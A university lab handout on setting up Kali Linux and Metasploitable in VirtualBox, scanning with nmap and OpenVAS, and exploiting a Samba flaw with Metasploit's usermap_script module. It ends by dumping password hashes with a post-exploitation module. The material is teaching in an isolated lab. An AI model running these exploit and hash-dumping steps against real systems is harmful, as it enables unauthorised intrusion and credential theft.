 ```yaml
---
title: Training 1 - Setup the lab and first exploit
author: Loïc Delestra
header-includes:
    - \usepackage{fancyhdr}
    - \pagestyle{fancy}
    - \fancyhead[CO,CE]{Training 1 - Setup the lab and first exploit}
geometry: margin=2cm
---
```


##A/ Installing Virtual Box
For this training courses we will use lots of different system.   
We will create a virtual lab. It's a set of virtualised pre-build systems with internal networks.   
For the first training you will use a Kali Linux and a Metasploitable system.   

Kali Linux is a Linux distribution, based on Debian, with lots of security tools.  
Metasploitable is a Linux distribution with lots of security issues and vulnerable web applications.   

The perfect couple!

##B/ Setup the lab
The first part of this training will be setup your lab.   

@. Virtualbox.   
For your practical work Virtualbox is already installed.

Computers in A214 have /VM/ folder shared by every system in that machine. Before adding the first VM you need to change the default image directory for /VM.

@. Installing Kali Linux
Offensive Security (the company behind Kali) provide a pre-installed VM of Kali.
The pre-installed VM is already downloaded on your computer in the /VM/ directory.
Start Virtualbox and click 'file/import Appliance' and import the Kali-Linux-2.0.0-vbox-i686.ova file.

**if you cant found the .ova file in /VM/**, it can be download.
Download url:   
Kali Linux for VMware and VirtualBox   
https://www.offensive-security.com/kali-linux-vmware-arm-image-download/   
Be sure to download the VirtualBox one (by default it display the VMware) 64bit with PAE.   

@. Installing Metaspoitable   
Metasploitable is a vulnerable distribution provided by rapid7 the company behind the Metasploit framework.
It's also already downloaded on your computer in /VM/ directory'.
Unzip it into /VM/ and add this existing VM into VirtualBox. 
Start Virtualbox, click 'New' and select 'use an existing virtual hard disk file', point to '/VM/metasploitable--/--.vmdk', and create.
Run it. Use login:msfadmin password:msfadmin
Check the network interface.

**if you cant found the metasploitable archive in /VM/**, it can be download.
Download link:
http://downloads.metasploit.com/data/metasploitable/metasploitable-linux-2.0.0.zip   


@. Create an internal network   
Kali and Metasploitable use two nat connections. Add a new interface at the Kali network as internal network.   
Change the existing interface of Metasploitable to use the same internal network as Kali.
Check the VMs can ping each other.


##C/ Scanning
Your two VMs are in the same network.

@. From kali run a nmap scan on your Metasploitable VM.
@. How many open port do you find?

You find lots of open port (ok its a distribution made for that), but how many are exploitable?
You will use a vulnerability scanner to find exploitable vulterability.

##C.A/ Scanning with NESSUS
Nessus is one of the best vulnerability scanner. It's made by tenable network security. This product is a little expensive, for this training we will use the Evaluation version (with number of IP's per scanner limited).   

@. **update:** NESSUS installation doesn't fit this lab constraints (ressources, network usage, licensing). for this training go to C.B
@. Download and install The nessus scanner.   

**In the Kali VM!**   
Download link:   
http://www.tenable.com/products/nessus/nessus-professional/evaluate   

Installation command: `sudo dpkg -i *.deb`   

Follow the installer instruction   

At the end of the installation your nessus is not ready yet. You have to 'configure it'

```
 - You can start nessusd by typing /etc/init.d/nessusd start
 - Then go to https://kali:8834/ to configure your scanner
```

@. When configuration is done. From the Nessus interface run a "Basic Network Scan" on your Metasploitable VM.
@. Look at the result. Specialy the critical and medium vulnerability. 
@. Look at the Samba 3.0.0 SamrChangePassword issue. You got lots of information about the vulnerability. In the right collumn 'exploitable with' give you the name of the metasploit module you can use for this vulnerability.

##C.B/ Scanning with OpenVAS
OpenVAS (Open vulnerability Assessment System) is an open source tool for testing vulnerabilities.

@. initialise openVAS: `openvas-setup` and `openvas-scapdata-sync` and `openvas-certdata-sync`
@. add a new user: `openvas-adduser`
@. gsd
@. You can now access to the server interface at localhost and logins you set earlier.
@. Start a new vulnerability scan with 'new/tasks' set the scan target and click create. Run the new task by right clicking on it and 'start'.

##D/ Exploit

@. In your kali open a terminal and run `msfconsole` it must run the metasploit framework.
@. Search for samba exploits with `search samba` . You got different exploits. into this list search for usermap_script.
@. use exploit/multi/samba/usermap_script  ... realy type `use exploit/multi/samba/usermap_script`   
This command will charge the module you want. The prompt must change and display the current module.
@. display options for this module with `show options`
@. Set the RHOST option with the ip of the Metasploitable VM. RHOST is the target machine. Use `set RHOST <ip>`
@. display options again
@. Start the exploit with the command `exploit`

##D/ Post exploit
With the exploit you got an interactive session with the target machine and you can execute a payload.   
Wikipedia: "In computer security, payload refers to the part of malware which performs a malicious action."


@. If your exploit succed you are in a session
@. presse `<ctrl> + z` in same time to put your session in background
@. List running session with `sessions -l`

@. You will use this session to execute a payload that will display password hash.   
I will not give you commands this time. Its work just like the previous part.
  - Use the post/linux/gather/hashdump module   
  - display options
  - set options how need to
  - exploit

If you succed you must see a list of user hashed password

**Call your teacher to check**



